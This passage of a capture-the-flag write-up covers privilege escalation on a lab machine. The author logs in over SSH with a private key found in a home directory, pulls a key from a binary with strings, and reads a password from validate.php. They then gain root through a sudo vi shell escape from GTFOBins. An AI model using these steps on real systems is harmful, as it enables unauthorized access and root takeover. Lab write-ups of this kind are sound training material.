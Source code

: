 # Privilege escalation
Exploring the home directory we found a pair of ssh keys and probably the user flag, but we cannot read it yet. Anyway we are interested in the private key, depending on the configuration we probably could use it to log in via SSH as the user `charlie`
![Pasted image 20241129155157.png](/img/user/attachments/Pasted%20image%2020241129155157.png)
## SSH access
Copy the content of the key on our machine (`teleport`) in this case
Change the permission
```shell
chmod 600 teleport
```
And connect
```shell
ssh -i teleport charlie@10.10.19.210
```
![Pasted image 20241129155757.png|600](/img/user/attachments/Pasted%20image%2020241129155757.png)
It works.
> [!check] User flag
> ![Pasted image 20241129160001.png](/img/user/attachments/Pasted%20image%2020241129160001.png)
On the `/vas/www/html` we found some files that we can't access.
![Pasted image 20241129161755.png](/img/user/attachments/Pasted%20image%2020241129161755.png)
Now we can handle them. The  probable key named `key_rev_key` is an executable
Try to get strings
```shell
strings key_rev_key
```
And we got it

> [!check] Key
> ![Pasted image 20241129161954.png](/img/user/attachments/Pasted%20image%2020241129161954.png)

Check the `validate.php` file to search the charlie's password
> [!check] Charlie's password
> ![Pasted image 20241129181653.png](/img/user/attachments/Pasted%20image%2020241129181653.png)
## sudo
We are charlie, check `sudo -l`
![Pasted image 20241129160821.png](/img/user/attachments/Pasted%20image%2020241129160821.png)
Check https://gtfobins.github.io/
![Pasted image 20241129160927.png](/img/user/attachments/Pasted%20image%2020241129160927.png)
Execute
```shelll
sudo vi -c ':!/bin/sh' /dev/null
```

We are root
![Pasted image 20241129161059.png](/img/user/attachments/Pasted%20image%2020241129161059.png)
## Root flag
Go to `/root`
Run python script and enter the key found before
```shell
python root.py
```
> [!check] Root flag
> ![Pasted image 20241129165011.png|600](/img/user/attachments/Pasted%20image%2020241129165011.png)